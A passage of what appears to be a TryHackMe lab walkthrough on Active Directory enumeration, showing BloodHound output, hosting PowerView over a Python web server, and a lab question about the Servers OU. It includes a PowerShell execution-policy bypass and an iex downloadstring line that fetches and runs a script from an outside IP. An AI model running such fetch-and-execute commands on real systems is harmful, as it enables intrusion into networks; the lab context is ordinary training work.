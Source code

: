 ```bash
INFO: Querying computer: THMIIS.za.tryhackme.com
INFO: Querying computer: THMDC.za.tryhackme.com
INFO: Done in 02M 00S
INFO: Compressing output into 20230702154947_bloodhound.zip
```

Drag and drop zip file to bloodhound GUI


### PowerView

Host:

```bash
ln -s /opt/sectools/powershell/PowerSploit/Recon/PowerView.ps1 powerview.ps1
python -m http.server 80
```

Load on target:

```bash
powershell -ep bypass
iex(new-object system.net.webclient).downloadstring('http://10.50.68.167/powerview.ps1')
```


### Questions


#### How many Computer objects are part of the Servers OU?


##### MMC

Connecting via RDP to lookup with GUI is much easier

Using **remmina**
